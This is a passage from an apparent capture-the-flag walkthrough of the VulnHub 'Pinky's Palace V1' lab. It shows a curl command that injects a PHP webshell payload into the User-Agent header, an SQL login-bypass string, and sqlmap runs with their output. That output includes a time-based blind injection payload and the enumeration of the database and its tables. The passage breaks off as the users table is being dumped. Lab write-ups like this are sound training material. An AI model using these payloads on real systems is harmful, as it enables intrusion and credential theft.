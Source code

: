 	- `littlesecrets-main/index.html`
	- `littlesecrets-main/login.php`
	- `littlesecrets-main/logs.php`


## TCP/8080 (HTTP) - SQLi Database Enum w/ SQLMap
1. Proceed to enumerated directories
	- `littlesecrets-main/index.html`
	![](Pasted%20image%2020220212163307.png)
	- `littlesecrets-main/logs.php`
		![](Pasted%20image%2020220212175355.png)
2. Check if we could inject a webshell in the User-Agent field
	``` 
	┌──(root💀kali)-[~/vulnHub/PinkysPalaceV1/192.168.110.27/exploit]
	└─# curl  -H "User-Agent: <?php system(\$_GET['c']); ?>" -X "http://192.168.110.27:31337/" http://pinkys-palace:8080/littlesecrets-main/login.php
	```
	- Failed, it is not logged, this means that there is some sort of input sanitization
6. Check if page is susceptible to SQLi Auth Bypass
	```
	user='OR 1=1#&pass='OR 1=1#
	```
	- Could not bypass login page
7. Determine if page is susceptible to SQLi w/ SQLMap
	```
	┌──(root💀kali)-[~/vulnHub/PinkysPalaceV1/192.168.110.27/exploit]
	└─# sqlmap -r sqli.txt --dbs --output-dir=$(pwd)/sqlmap --proxy=http://192.168.110.27:31337/ --level=5 --risk=3
	
	Parameter: User-Agent (User-Agent)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36 OPR/83.0.4254.27' AND (SELECT 6783 FROM (SELECT(SLEEP(5)))aLXs) AND 'xFNY'='xFNY

	available databases [2]:
	[*] information_schema
	[*] pinky_sec_db

	```
8. Enumerate tables in `pinky_sec_db` database
	``` 
	┌──(root💀kali)-[~/vulnHub/PinkysPalaceV1/192.168.110.27/exploit]
	└─# sqlmap -r sqli.txt -D pinky_sec_db --tables --output-dir=$(pwd)/sqlmap --proxy=http://192.168.110.27:31337/ --level=5 --risk=3

	Database: pinky_sec_db
	[2 tables]
	+-------+
	| logs  |
	| users |
	+-------+
	```
9. Dump `users` table from `pinky_sec_db` database
	``` 
	Database: pinky_sec_db
	Table: users
	[2 entries]
	+-----+----------------------------------+-------------+
	| uid | pass                             | user        |
	+-----+----------------------------------+-------------+